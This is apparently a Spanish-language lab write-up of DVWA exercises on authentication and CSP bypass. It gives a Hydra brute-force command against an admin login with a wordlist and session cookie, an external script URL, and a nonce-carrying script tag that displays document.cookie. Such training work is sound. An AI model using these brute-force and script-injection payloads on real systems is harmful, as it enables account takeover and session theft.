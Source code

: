 # 🛡️ Vulnerabilidades en la autenticación y autorización

# 🛡️ Brute Force
## LOW y MEDIUM
## 📋 Explicación
Para resolver este, ejecutamos este comando de Hydra que hace un ataque de fuerza bruta web contra DVWA en el módulo de Brute Force, enviando peticiones HTTP GET para intentar descubrir la contraseña del usuario admin.

## 🖥️ Payload ejecutado
```bash
hydra -l admin -P /home/alfonso/rockyou.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect." -m "Cookie: security=low; PHPSESSID=ibok9bdioj4f4o4oib178plrse"
```
## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/brute1.png)

# 🛡️ Content Security Policy (CSP) Bypass
## LOW
## 📋 Explicación
Logramos evadir las restricciones de seguridad CSP cargando un script externo (alert.js) desde digi.ninja, este script nos lo proporciona el propio DVWA.

El resultado es que aparece un popup que dice "CSP Bypassed", demostrando que la protección CSP fue saltada y se pudo ejecutar código externo.

## 🖥️ Payload ejecutado
```bash
https://digi.ninja/dvwa/alert.js
```
## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csp1.png)

## MEDIUM
## 📋 Explicación
En este caso, inyectamos el comando de abajo, al hacerlo hace que DVWA muestre un popup enseñando el nivel de seguridad y tus cookies de sesión.

## 🖥️ Payload ejecutado
```bash
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>
```
## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csp2.png)
